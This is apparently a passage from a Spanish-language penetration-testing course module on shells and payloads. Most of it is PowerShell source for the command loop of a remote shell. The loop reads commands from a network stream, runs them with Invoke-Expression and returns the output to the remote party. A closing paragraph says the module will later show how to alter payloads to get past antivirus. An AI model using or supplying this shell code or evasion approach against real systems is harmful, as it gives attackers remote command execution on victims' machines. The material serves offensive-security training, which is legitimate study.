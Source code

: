 ```r
        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

---
## Payloads Take Different Shapes and Forms

Entender lo que hacen los diferentes tipos de payloads puede ayudarnos a entender por qué AV nos está bloqueando la ejecución y darnos una idea de lo que podríamos necesitar cambiar en nuestro código para eludir las restricciones. Esto es algo que exploraremos más adelante en este módulo. Por ahora, comprende que los payloads que usamos para obtener una shell en un sistema estarán determinados en gran medida por el OS, los lenguajes intérpretes de shell e incluso los lenguajes de programación presentes en el target.
